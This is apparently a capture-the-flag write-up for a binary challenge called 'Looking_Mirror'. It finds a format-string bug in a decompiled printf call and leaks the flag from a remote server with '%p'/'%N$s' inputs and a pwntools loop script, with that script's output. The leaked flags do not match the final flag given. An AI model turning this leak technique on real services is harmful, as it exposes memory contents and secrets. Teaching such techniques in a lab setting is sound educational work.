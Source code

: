 # Looking_Mirror

**Description**:  
Welcome brave adventurer, gaze into the immortal mirror and best it with your queries. Let it spill the much guarded secret to a masterful conquest!

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
As usual, lets start with checking the permissions with `checksec`:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Everything else enabled, except for canary. 

Now lets try running the binary:
```
Ask the looking mirror for the secret to a masterful conquest!
==============================================
Hi, you are face to face with the immortal mirror now!
Delve into its eternal wisdom and get the much gaurded secret.
Remember! it shall delight you with a reply, only if you are truly worthy. Otherwise it will echo your queries back to you.



> hi
Looking Mirror: hi

> I am Ath3n1x
Looking Mirror: I am Ath3n1x

> 
```
As the description says, it just spits out the input.

Now we will move on the examining the source code in ida/ghidra:
```
  do {
    printf("\n> ");
    fgets(local_98,0x40,stdin);
    printf("Looking Mirror: ");
    printf(local_98);
  } while( true );
```
Bingo, here is the culprit! Look at the printf statement `printf(local_98);`, a small friend called format specifier is missing leading to format string vulnerability.

Now that we found the vulnerability, lets again try running the binary and try to leak some stuff from stack.

```
> %p %p %p %p
Looking Mirror: 0x7ffd11b09970 (nil) (nil) 0x63605f4c248c

> %s %s %s %s %s
Looking Mirror: Looking Mirror: nil) (nil) 0x63605f4c248c
 (null) (null) 4t5_b4by_f0rm4773r}
 (null)
```
Woah, we got something. Now, lets prepare our exploit. I had a fuzzing script ready, so I used that for this challenge since we can directly leak the flag.

**Exploit:**
```
from pwn import *

#elf = context.binary = ELF('./looking_mirror', checksec=False)

for i in range(100):
    try:
        #p = process(level='error')
        p = remote("13.234.11.113", 31481)
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        result = p.recvuntil(b'> ')
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

On running the script:
```
0: b'Looking Mirror: %0$s\n\n> '
1: b'Looking Mirror: Looking Mirror: \xe8\x03\n\n> '
2: b'Looking Mirror: (null)\n\n> '
3: b'Looking Mirror: (null)\n\n> '
4: b'Looking Mirror: iCTF{c0ngr4t5_b4by_f0rm4773r}\n\n\n> '
5: b'Looking Mirror: (null)\n\n> '
6: b'Looking Mirror: u\x91d*\xfc\x7f\n\n> '
8: b'Looking Mirror: (null)\n\n> '
10: b'Looking Mirror: shaktiCTF{c0ngr4t5_b4by_f0rm4773r}\n\n\n> '
```

:tada::tada::tada:

Flag: `shaktictf{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}`              